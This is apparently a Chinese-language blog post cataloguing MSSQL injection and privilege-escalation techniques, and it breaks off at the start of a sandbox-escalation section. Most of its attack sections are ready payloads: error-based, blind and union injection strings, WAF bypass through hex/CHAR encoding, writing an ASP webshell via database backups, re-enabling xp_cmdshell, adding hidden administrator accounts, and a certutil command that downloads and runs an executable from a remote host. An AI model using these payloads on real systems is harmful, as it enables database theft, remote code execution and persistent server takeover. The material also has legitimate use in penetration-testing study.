








# [](#mssql-%E6%B3%A8%E5%85%A5%E4%B8%8E%E6%8F%90%E6%9D%83%E6%96%B9%E6%B3%95%E6%95%B4%E7%90%86)MSSQL 注入与提权方法整理

## [](#1-sql-server-%E7%9B%B8%E5%85%B3%E5%9F%BA%E7%A1%80%E7%AE%80%E4%BB%8B)1 SQL Server 相关基础简介

### [](#11-%E9%BB%98%E8%AE%A4%E5%BA%93%E4%BB%8B%E7%BB%8D)1.1 默认库介绍

-   master - 用于记录所有 SQL Server 系统级别的信息，这些信息用于控制用户数据库和数据操作。
-   model - SQL Server 为用户数据库提供的样板，新的用户数据库都以 model 数据库为基础
-   msdb - 由 Enterprise Manager 和 Agent 使用，记录着任务计划信息、事件处理信息、数据备份及恢复信息、警告及异常信息。
-   tempdb - 它为临时表和其他临时工作提供了一个存储区。

信息

这里我们经常要打交道的库也就是 master，其中储存了所有数据库名与存储过程。类比于 MySQL 中的 `information_schema` 元数据库。


以 master 库为例可以看到上面几个类别，其中视图表 `master.dbo.sysdatabases` 储存所有数据库名，其他数据库的视图则储存它本库的表名与列名。每一个库的视图表都有 `syscolumns` 存储着所有的字段，可编程性储存着我们的函数。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select name from master.dbo.sysdatabases;<br>``` |

查询所有数据库的名称。

### [](#12-%E5%AD%97%E6%AE%B5%E4%BB%8B%E7%BB%8D)1.2 字段介绍

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select top 1 name,xtype from sysobjects;<br>``` |

xtype 可以是下列对象类型中的一种：

-   C = CHECK 约束
-   D = 默认值或 DEFAULT 约束
-   F = FOREIGN KEY 约束
-   L = 日志
-   FN = 标量函数
-   IF = 内嵌表函数
-   P = 存储过程
-   PK = PRIMARY KEY 约束（类型是 K）
-   RF = 复制筛选存储过程
-   S = 系统表
-   TF = 表函数
-   TR = 触发器
-   U = 用户表
-   UQ = UNIQUE 约束（类型是 K）
-   V = 视图
-   X = 扩展存储过程

## [](#2-sql-server-%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86)2 SQL Server 信息收集

### [](#21-%E6%9D%83%E9%99%90%E5%88%A4%E6%96%AD)2.1 权限判断

SQL Server 内部按作用范围来分有三大主体:

-   Windows 级别主体
-   服务器级别主体
-   数据库级别主体


#### [](#211-%E6%9C%8D%E5%8A%A1%E5%99%A8%E7%BA%A7%E5%88%AB)2.1.1 服务器级别

在微软的官方文档中可以看到， `IS_SRVROLEMEMBER ( 'role' [ , 'login' ] )` ，函数 role 的有效值是用户定义的服务器角色和以下固定服务器角色：



返回类型：

| 返回值 | 描述  |
| --- | --- |
| 0   | login 不是 role 的成员。 |
| 1   | login 是 role 的成员。 |
| NULL | role 或 login 无效，或者没有查看角色成员身份的权限。 |

最终我们可以构造语句：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```sql<br>and 1=(select is_srvrolemember('sysadmin'))<br>and 1=(select is_srvrolemember('serveradmin'))<br>and 1=(select is_srvrolemember('setupadmin'))<br>and 1=(select is_srvrolemember('securityadmin'))<br>and 1=(select is_srvrolemember('diskadmin'))<br>and 1=(select is_srvrolemember('bulkadmin'))<br>``` |

在 SQLMap 中使用 –is-dba 命令可以判断是否为管理员权限

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>select * from admin where id =1 AND 5560 IN (SELECT (CHAR(113)+CHAR(122)+CHAR(113)+CHAR(107)+CHAR(113)+(SELECT (CASE WHEN (IS_SRVROLEMEMBER(CHAR(115)+CHAR(121)+CHAR(115)+CHAR(97)+CHAR(100)+CHAR(109)+CHAR(105)+CHAR(110))=1) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(118)+CHAR(112)+CHAR(120)+CHAR(113)))<br>``` |

#### [](#212-%E6%95%B0%E6%8D%AE%E5%BA%93%E7%BA%A7%E5%88%AB%E7%9A%84%E8%A7%92%E8%89%B2)2.1.2 数据库级别的角色

`select IS_MEMBER('db_owner')`



### [](#22-%E5%9F%BA%E6%9C%AC%E4%BF%A1%E6%81%AF)2.2 基本信息

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```fallback<br>@@version // 数据库版本<br>user  //获取当前数据库用户名<br>db_name() // 当前数据库名 其中db_name(N)可以来遍历其他数据库<br>;select user //查询是否支持多语句<br>``` |

### [](#23-%E5%88%A4%E6%96%AD%E7%AB%99%E5%BA%93%E5%88%86%E7%A6%BB)2.3 判断站库分离

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select * from info where id='1' and host_name()=@@servername;--'<br>``` |

最简单的方法，当然你可以调用 xp\_cmdshell 就可以通过 cmd 来判断。

通过简单的判断数据库版本，当前用户权限，我们就可以想下一步怎么去做，比如 2005 的 xp\_cmdshell 的权限一般是 system 而 2008 的权限一般是 `ntauthority\network service`

## [](#3-sql-server-%E8%AF%AD%E6%B3%95)3 SQL Server 语法

### [](#31-%E6%B3%A8%E9%87%8A%E7%AC%A6%E5%8F%B7)3.1 注释符号

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```fallback<br>/*<br>-- <br>;%00<br>``` |

### [](#32-%E7%A9%BA%E7%99%BD%E5%AD%97%E7%AC%A6)3.2 空白字符

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```fallback<br>01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20<br><br>/**/<br>``` |

### [](#33-%E8%BF%90%E7%AE%97%E7%AC%A6%E5%8F%B7)3.3 运算符号

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>``` | ```fallback<br>+   加法运算<br>-   减法运算<br>*   乘法运算<br>/   除法运算，如果两个表达式值都是整数，那么结果只取整数值，小数值将略去<br>%   取模运算，返回两数相除后的余数<br><br>&   位与逻辑运算，从两个表达式中取对应的位。当且仅当输入表达式中两个位的值都为 1 时，结果中的位才被设置为 1，否则，结果中的位被设置为 0<br>\|   位或逻辑运算，从两个表达式中取对应的位。如果输入表达式中两个位只要有一个的值为 1 时，结果的位就被设置为 1，只有当两个位的值都为 0 时，结果中的位才被设置为 0<br>^   位异或运算，从两个表达式中取对应的位。如果输入表达式中两个位只有一个的值为 1 时，结果中的位就被设置为 1；只有当两个位的值都为 0 或 1 时，结果中的位才被设置为0<br><br>=   等于 <br><>  不等于<br>>   大于  <br>!=  不等于<br><   小于  <br>!<  不小于<br>>=  大于或等于   <br>!>  不大于<br><=  小于或等于<br><br>ALL 如果一组的比较都为 true，则比较结果为 true<br>AND 如果两个布尔表达式都为 true，则结果为 true；如果其中一个表达式为 false，则结果为 false<br>ANY 如果一组的比较中任何一个为 true，则结果为 true<br>BETWEEN 如果操作数在某个范围之内，那么结果为 true<br>EXISTS  如果子查询中包含了一些行，那么结果为 true<br>IN  如果操作数等于表达式列表中的一个，那么结果为 true<br>LIKE    如果操作数与某种模式相匹配，那么结果为 true<br>NOT 对任何其他布尔运算符的结果值取反<br>OR  如果两个布尔表达式中的任何一个为 true，那么结果为 true<br>SOME    如果在一组比较中，有些比较为 true，那么结果为 true<br>``` |

### [](#34-%E8%AF%AD%E6%B3%95%E5%AE%9A%E4%B9%89%E7%AC%A6%E5%8F%B7)3.4 语法定义符号

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```fallback<br>< > 尖括号，用于分隔字符串，字符串为语法元素的名称，SQL 语言的非终结符。<br><br>::= 定义操作符。用在生成规则中，分隔规则定义的元素和规则定义。 被定义的元素位于操作符的左边，规则定义位于操作符的右边。<br><br>[ ] 方括号表示规则中的可选元素。方括号中的规则部分可以明确指定也可以省略。<br><br>{ } 花括号聚集规则中的元素。在花括号中的规则部分必须明确指定。<br><br>() 括号是分组运算符<br>``` |

## [](#4-mssql-%E6%B3%A8%E5%85%A5)4 MSSQL 注入

### [](#41-%E6%98%BE%E9%94%99%E6%B3%A8%E5%85%A5)4.1 显错注入

#### [](#411-%E5%8E%9F%E7%90%86)4.1.1 原理

MSSQL 报错注入利用的就是显示或隐式转换来报错注入，比如以下就是典型的隐式转换

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```sql<br>select * from admin where id =1 and (select user)>0--<br><br>select * from admin where id =1\|(select user)--<br><br>在将 nvarchar 值 'dbo' 转换成数据类型 int 时失败。<br>``` |

显示转换也就是利用函数来转换，我们经常用到的两个函数就是 cast 和 convert

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```sql<br>select * from admin where id =1 (select CAST(USER as int))<br><br>select * from admin where id =1 (select convert(int,user))<br>``` |

**判断当前数据库：**

`id=1'and db_name()>0;--`



**爆表名：**

`id=1' and 1=(select top 1 name from sysobjects where xtype='u' and name !='info');--`



**爆列名：**

`id=1' and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name = 'admin') and name<>'id');--`



**爆数据：**

`id=1' and 1=(select top 1 username from admin);--`



#### [](#412-%E5%85%B6%E5%AE%83%E7%94%A8%E6%B3%95)4.1.2 其它用法

当然查询数据库的所有表还可以使用 `INFORMATION_SCHEMA.TABLES`

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```sql<br>select * from INFORMATION_SCHEMA.TABLES<br><br>select * from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME='admin'<br><br>id=1 and 1=(select top 1 table_name from information_schema.tables);--<br>``` |

要判断当前表名和列名，也可以使用 `having 1=1` 和 `group by`

`id=1 having 1=1`


**爆出当前表和字段：**

`id=1 group by info.id,info.name having 1=1`


#### [](#413-%E7%AE%80%E5%8D%95%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87)4.1.3 简单注入绕过

这里引入一个 `declare` 函数，他是 mssql 声明局部变量的函数，我们经常用它来绕过 waf 对一些关键词的拦截

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select * from admin where id =1;declare @a nvarchar(2000) set @a='select convert(int,@@version)' exec(@a) --<br>``` |

declare 定义变量，set 设置变量值，exec 执行变量

变量的值是支持 hex 和 ascii 码的，当过滤引号我们就可以这么用把我们的语句编码一下

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```sql<br>select * from admin where id =1;declare @s varchar(2000) set @s=0x73656c65637420636f6e7665727428696e742c404076657273696f6e29 exec(@s)--<br><br>select * from admin where id =1;declare @s varchar(2000) set @s= CHAR(115) + CHAR(101) + CHAR(108) + CHAR(101) + CHAR(99) + CHAR(116) + CHAR(32) + CHAR(99) + CHAR(111) + CHAR(110) + CHAR(118) + CHAR(101) + CHAR(114) + CHAR(116) + CHAR(40) + CHAR(105) + CHAR(110) + CHAR(116) + CHAR(44) + CHAR(64) + CHAR(64) + CHAR(118) + CHAR(101) + CHAR(114) + CHAR(115) + CHAR(105) + CHAR(111) + CHAR(110) + CHAR(41) exec(@s)--<br>``` |

### [](#42-%E7%9B%B2%E6%B3%A8)4.2 盲注

其实跟 mysql 大同小异无非就是分割字符串比较，但是 mssql 的盲注套路确实没那么多。

#### [](#421-%E5%B8%83%E5%B0%94%E7%9B%B2%E6%B3%A8)4.2.1 布尔盲注

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>id=1 and ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1)) >= 109<br>``` |

#### [](#422-%E6%97%B6%E9%97%B4%E7%9B%B2%E6%B3%A8)4.2.2 时间盲注

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```sql<br>id=1;if (select IS_SRVROLEMEMBER('sysadmin'))=1 WAITFOR DELAY '0:0:5'--<br><br>id=1;if (ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1)))>1 WAITFOR DELAY '0:0:5'--<br>``` |

### [](#42-%E8%81%94%E5%90%88%E6%B3%A8%E5%85%A5)4.2 联合注入

mssql 联合注入我们一般不使用数字占位，而是 null，因为使用数字占位可能会发生隐式转换

`id=1 union select null,name,pass from info`



也可以利用如下方法：

`id=1 SELECT 1 UNION (select CAST(USER as int))`


## [](#5-mssql-%E6%8F%90%E6%9D%83)5 MSSQL 提权


### [](#51-%E5%A4%87%E4%BB%BD%E6%8B%BF-shell)5.1 备份拿 shell

备份拿 shell 也就涉及到了权限的问题，SA 权限不用说没有降权的话基本能做任何事情了，它数据库权限是 `db_owner`，当然其他用户如果也拥有 `db_owner` 基本也可以通过备份拿下 shell，但是在设置目录权限后就不行了。

#### [](#511-%E8%B7%AF%E5%BE%84%E7%9A%84%E5%AF%BB%E6%89%BE)5.1.1 路径的寻找

需要路径的我们一般有几个思路：

1.  报错寻找
2.  字典
3.  旁站信息收集
4.  调用储存过程来搜索
5.  读配置文件

这里我们着重讨论一下储存过程也就是这些函数来找我们的网站根目录。一般我们可以用 `xp_cmdshell`、`xp_dirtree`、`xp_dirtree`、`xp_subdirs`

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```sql<br>execute master..xp_dirtree 'c:'       //列出所有 c:\ 文件和目录,子目录 <br>execute master..xp_dirtree 'c:',1     //只列 c:\ 文件夹 <br>execute master..xp_dirtree 'c:',1,1   //列 c:\ 文件夹加文件 <br>``` |

通过执行 `xp_dirtree` 返回我们传入的参数，如果没有回显的话，可以这样创建一个临时的表插入

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```sql<br>id=1;CREATE TABLE tmp (dir varchar(8000),num int,num1 int);<br><br>id=1;insert into tmp(dir,num,num1) execute master..xp_dirtree 'c:',1,1<br>``` |

`xp_cmdshell` 寻找路径：

这个 `xp_cmdshell` 找起来更加方便我们调用cmd的命令去搜索，比如我的web目录有个1.aspx

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>C:\Users\Gee>for /r c:\ %i in (1*.aspx) do @echo %i<br>c:\www\1.aspx<br>``` |

所以只需要建立一个表，存在一个 char 字段就可以了。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```sql<br>id=1;CREATE TABLE cmdtmp (dir varchar(8000));<br><br>id=1;insert into cmdtmp(dir) exec master..xp_cmdshell 'for /r c:\ %i in (1*.aspx) do @echo %i'<br>``` |

信息

SQL Server 阻止了对组件 `xp_cmdshell` 的过程 `sys.xp_cmdshell` 的访问，因为此组件已作为此服务器安全配置的一部分而被关闭。系统管理员可以通过使用 sp\_configure 启用。

如果遇到 xp\_cmdshell 不能调用，报错，可用如下命令恢复：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```fallback<br>// 允许修改高级参数 <br>;EXEC sp_configure 'show advanced options',1;RECONFIGURE;<br><br>// 打开xp_cmdshell 扩展<br>;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;--<br>``` |

#### [](#512-%E5%B7%AE%E5%BC%82%E5%A4%87%E4%BB%BD)5.1.2 差异备份

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```sql<br>// 完整备份一次(保存位置可以改)<br>backup database 库名 to disk = 'c:\bak.bak';--<br><br>create table [dbo].[test] ([cmd] [image]);<br><br>// 创建表 cmd 并插入一句话木马<br>insert into test(cmd) values(0x3C25657865637574652872657175657374282261222929253E)<br><br>// 进行差异备份<br>backup database 库名 to disk='C:\d.asp' WITH DIFFERENTIAL,FORMAT;--<br>``` |

差异备份有多种情况可能不成功，一般就是目录权限的问题，第一次备份的目录是否可能没有权限，第二次备份到网站目录是否有权限，所以一般不要直接备份到 c 盘根目录

当过滤了特殊的字符比如单引号，或者路径符号都可以使用前面提到的定义局部变量来执行。

#### [](#513-log-%E5%A4%87%E4%BB%BD)5.1.3 LOG 备份

> LOG 备份需要先把指定的数据库激活为还原模式，所以需要执行`alter database XXX set RECOVERY FUL`，而差异备份不需要，所以只有这条语句的就是 LOG 备份

LOG 备份的要求是目标机器的数据库备份过，而且选择恢复模式得是完整模式，但是使用 log 备份文件会小的多，当然如果你的权限够高可以设置他的恢复模式。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```sql<br>alter database 库名 set RECOVERY FULL <br><br>create table cmd (a image) <br><br>backup log 库名 to disk = 'c:\xxx' with init <br><br>insert into cmd (a) values (0x3C25657865637574652872657175657374282261222929253E) <br><br>backup log 库名 to disk = 'c:\xxx\2.asp'<br>``` |

相对于差异备份，log 备份的好处就是备份出来的 webshell 的文件大小非常的小。

### [](#52-xp_cmdshell)5.2 xp\_cmdshell

-   测试 xp\_cmdshell 是否可以执行
    
    -   `exec master..xp_cmdshell 'ver'`
-   添加管理员用户
    
    -   `exec master.dbo.xp_cmdshell 'net user q 123456q /add'`
    -   `exec master.dbo.xp_cmdshell 'net localgroup administrators q /add'`
-   远程下载文件，上马
    

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```sql<br>exec master.dbo.xp_cmdshell 'cd c:\www & certutil -urlcache -split -f http://192.168.130.142:80/download/file.exe';<br><br>exec master.dbo.xp_cmdshell 'cd c:\www & file.exe';<br>``` |

### [](#53-sp_oacreate)5.3 sp\_oacreate

当 xp\_cmdshell 被删除可以使用这个来提权试试，恢复 sp\_oacreate

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```sql<br>EXEC sp_configure 'show advanced options', 1;  <br>RECONFIGURE WITH OVERRIDE;  <br>EXEC sp_configure 'Ole Automation Procedures', 1;  <br>RECONFIGURE WITH OVERRIDE;  <br>EXEC sp_configure 'show advanced options', 0;<br>``` |

sp\_oacreate 是一个非常危险的存储过程可以删除、复制、移动文件。还能配合 sp\_oamethod 来写文件执行 cmd。

有以下几种利用思路：

-   调用 cmd 来执行命令

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>``` | ```sql<br>wscript.shell 执行命令<br><br>declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c xxx'<br><br><br><br>Shell.Application 执行命令<br><br>declare @o int<br>exec sp_oacreate 'Shell.Application', @o out<br>exec sp_oamethod @o, 'ShellExecute',null, 'cmd.exe','cmd /c net user >c:\test.txt','c:\windows\system32','','1';<br>``` |

-   写入启动项

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```sql<br>declare @sp_passwordxieo int, @f int, @t int, @ret int<br>exec sp_oacreate 'scripting.filesystemobject', @sp_passwordxieo out<br>exec sp_oamethod @sp_passwordxieo, 'createtextfile', @f out, 'd:\RECYCLER\1.vbs', 1<br>exec @ret = sp_oamethod @f, 'writeline', NULL,'set wsnetwork=CreateObject("WSCRIPT.NETWORK")'<br>exec @ret = sp_oamethod @f, 'writeline', NULL,'os="WinNT://"&wsnetwork.ComputerName'<br>exec @ret = sp_oamethod @f, 'writeline', NULL,'Set ob=GetObject(os)'<br>exec @ret = sp_oamethod @f, 'writeline', NULL,'Set oe=GetObject(os&"/Administrators,group")'<br>exec @ret = sp_oamethod @f, 'writeline', NULL,'Set od=ob.Create("user","123$")'<br>exec @ret = sp_oamethod @f, 'writeline', NULL,'od.SetPassword "123"'<br>exec @ret = sp_oamethod @f, 'writeline', NULL,'od.SetInfo'<br>exec @ret = sp_oamethod @f, 'writeline', NULL,'Set of=GetObject(os&"/123$",user)'<br>exec @ret = sp_oamethod @f, 'writeline', NULL,'oe.add os&"/123$"';<br>``` |

### [](#54-%E6%B2%99%E7%9B%92%E6%8F%90%E6%9D%83)5.4 沙盒提权

沙盒模式是数据库的一种安全功能。在沙盒模式下，只对控件和字段属性中的安全且不含恶意代码的表达式求值。如果表达式不使用可能以某种方式损坏数据的函数或属性，则可认为它是安全的。

使用场景：无法执行命令时，`xp_regwrite` 可用(使用条件)

-   开启沙盒模式：

